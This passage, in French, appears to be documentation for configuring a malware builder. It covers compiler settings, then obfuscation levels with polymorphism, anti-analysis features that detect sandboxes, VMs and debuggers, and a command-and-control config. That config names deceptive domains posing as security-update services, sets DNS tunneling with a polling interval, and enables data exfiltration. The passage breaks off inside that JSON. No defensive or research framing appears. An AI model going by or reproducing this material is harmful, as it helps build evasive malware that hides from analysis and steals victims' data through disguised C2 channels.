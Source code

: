 ### Détails des Paramètres

#### Paramètres de Base
- **`source_dir`** : Répertoire contenant le code source C++
- **`output_dir`** : Où placer l'exécutable compilé
- **`main_executable`** : Nom du fichier exécutable final
- **`target_architecture`** : 
  - `"x86"` : 32-bit (compatibilité maximale)
  - `"x64"` : 64-bit (performance optimale)

#### Compilation Avancée
- **`compiler_flags`** : 
  - `/O2` : Optimisation vitesse/taille équilibrée
  - `/GL` : Optimisation inter-modules
  - `/MT` : Runtime C statique (indépendant)
  - `/DNDEBUG` : Supprime les assertions debug

- **`linker_flags`** :
  - `/SUBSYSTEM:WINDOWS` : Application Windows GUI
  - `/SUBSYSTEM:CONSOLE` : Application console
  - `/LTCG` : Link Time Code Generation

#### Obfuscation et Protection
- **`obfuscation_level`** :
  - `"low"` : Obfuscation de chaînes basique
  - `"medium"` : + Obfuscation de flux de contrôle
  - `"high"` : + Passes LLVM, polymorphisme

- **`enable_anti_analysis`** :
  - Détection de sandbox/VM
  - Détection de debugger
  - Vérifications d'intégrité

#### Configuration de Chiffrement
- **`algorithm`** : `xchacha20poly1305` (recommandé, sécurisé)
- **`key_derivation`** : `argon2id` (résistant aux attaques)
- **`iterations`** : Nombre d'itérations (10 = rapide, 100+ = sécurisé)

---

## 2. Configuration C&C (`c2_config.json`)

### Structure Complète
```json
{
  "c2_domain": "update-security-check.com",
  "backup_domains": [
    "system-maintenance-srv.org",
    "critical-update-service.net"
  ],
  
  "communication": {
    "method": "dns_tunneling",            // Méthode de communication
    "chunk_size": 30,                     // Taille des chunks (bytes)
    "poll_interval": 300,                 // Intervalle de polling (s)
    "max_retries": 5,                     // Tentatives max
    "timeout": 10                         // Timeout réseau (s)
  },
  
  "encryption_key": "CHANGE_THIS_KEY",    // Clé de chiffrement C&C
  
  "exfiltration": {
    "enabled": true,                      // Exfiltration activée
```
